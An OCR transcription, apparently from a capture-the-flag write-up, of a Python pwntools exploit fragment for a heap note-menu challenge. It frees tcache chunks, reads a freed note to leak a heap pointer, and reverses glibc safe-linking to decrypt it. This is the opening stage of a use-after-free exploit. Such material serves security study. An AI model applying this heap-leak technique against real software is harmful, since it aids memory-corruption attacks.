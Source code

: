 ```python

def update(idx, data):

&nbsp;   p.sendline(b'3')

&nbsp;   p.sendlineafter(b'idx: ', str(idx).encode())

&nbsp;   p.sendafter(b'data: ', data)



def delete(idx):

&nbsp;   p.sendline(b'4')

&nbsp;   p.sendlineafter(b'idx: ', str(idx).encode())



def decrypt(cipher):

&nbsp;   key = 0

&nbsp;   plain = 0



&nbsp;   for i in range(1, 6):

&nbsp;       bits = 64-12\*i

&nbsp;       if bits < 0:

&nbsp;           bits = 0

&nbsp;       plain = ((cipher ^ key) >> bits) << bits

&nbsp;       key = plain >> 12



&nbsp;   return plain



for \_ in range(7):

&nbsp;   create(9, 0x30, b'a')

&nbsp;   delete(9)



leak = read\_note(9)

cipher = u64(leak.ljust(8, b'\\x00'))

print('leak : ', hex(cipher))

decrypted\_leak = decrypt(cipher)

print('decrypted\_leak : ', hex(decrypted\_leak))

```
